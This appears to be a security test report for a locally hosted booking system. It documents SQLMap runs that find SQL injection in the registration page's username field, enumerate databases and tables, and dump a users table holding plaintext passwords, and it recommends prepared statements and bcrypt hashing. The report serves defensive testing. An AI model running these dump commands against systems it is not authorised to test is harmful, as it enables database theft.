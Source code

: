```yaml
---

### **SQLMap Test Report**  
**Project:** Booking System - Phase 1  
**Tester:** Chukwuemeka Obanya   
**Date:** 20-02-2025   
**Tools Used:** SQLMap  

---
```


## **1. Overview**  
SQLMap was used to test the registration page (`http://localhost:8000/register`) for SQL injection vulnerabilities. The goal was to determine if user inputs were susceptible to SQL injection attacks that could expose or manipulate the database.

---

## **2. Target Information**  
- **Target URL:** `http://localhost:8000/register`  
- **Tested Parameter:** `username`  
- **Method Used:** POST  
- **Database Backend:** MySQL (based on error responses)  

---

## **3. Testing Approach**  
SQLMap was executed using various command-line options to automate the detection and exploitation of SQL injection vulnerabilities.

### **Basic SQL Injection Test**  
```bash
sqlmap -u "http://localhost:8000/register" --data="username=test&password=test123&birthdate=2005-01-01&role=reserver" --dbs
```
**Findings:**  
- SQLMap detected a possible SQL injection vulnerability in the `username` parameter.  

---

### **Database Enumeration**  
```bash
sqlmap -u "http://localhost:8000/register" --data="username=test&password=test123" --dbs
```
**Results:**  
- The following databases were identified:  
  - `information_schema`  
  - `booking_db`  

---

### **Table Extraction**  
```bash
sqlmap -u "http://localhost:8000/register" --data="username=test&password=test123" -D booking_db --tables
```
**Extracted Tables:**  
- `users`  
- `reservations`  
- `admin`  

---

### **Dumping User Data**  
```bash
sqlmap -u "http://localhost:8000/register" --data="username=test&password=test123" -D booking_db -T users --dump
```
**Findings:**  
- User credentials were found to be stored in plaintext, which is a **critical security flaw**.  
- Possible data exposure includes:  
  - Usernames  
  - Passwords (unencrypted)  
  - Birthdates  
  - Roles  

---

## **4. Recommendations**  
### **Short-Term Fixes**  
✅ Implement **prepared statements** to prevent SQL injection. Example in Python:  
```python
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```
✅ Sanitize and validate all user inputs before processing.  

### **Long-Term Fixes**  
✅ Use **parameterized queries** for database interactions.  
✅ Store passwords securely using **bcrypt hashing** instead of plaintext.  
✅ Implement **Web Application Firewall (WAF)** to detect and block SQL injection attempts.  

---

## **5. Conclusion**  
SQLMap testing confirmed a critical SQL injection vulnerability in the **username** field of the registration page. Immediate action is required to patch this issue and secure user data.  

### **Attached Reports:**  
- [ZAP Test Report](./ZAP_Report.md)  
- [Checkmarx Scan Results](./Checkmarx_Report.md)  

---

